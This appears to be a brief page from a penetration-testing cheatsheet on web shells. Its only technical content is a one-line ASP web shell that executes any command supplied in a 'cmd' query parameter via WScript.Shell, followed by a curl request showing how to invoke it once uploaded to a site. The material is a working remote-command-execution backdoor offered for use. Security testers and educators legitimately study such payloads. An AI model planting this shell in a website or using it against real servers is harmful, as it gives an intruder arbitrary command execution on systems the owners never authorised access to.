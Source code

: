 ```yaml
---
layout: default
parent: Other
grand_parent: Pentest Cheatsheets
title: Web Shells
nav-order: 1
---
```


<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

**ASP/ASPX**
==========

**Simple asp**
--------------

```
\\ Save to script
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>

\\ After upload to site once you know where to locate uploaded script
curl http://SITE/SCRIPT.asp?cmd=whoami
```
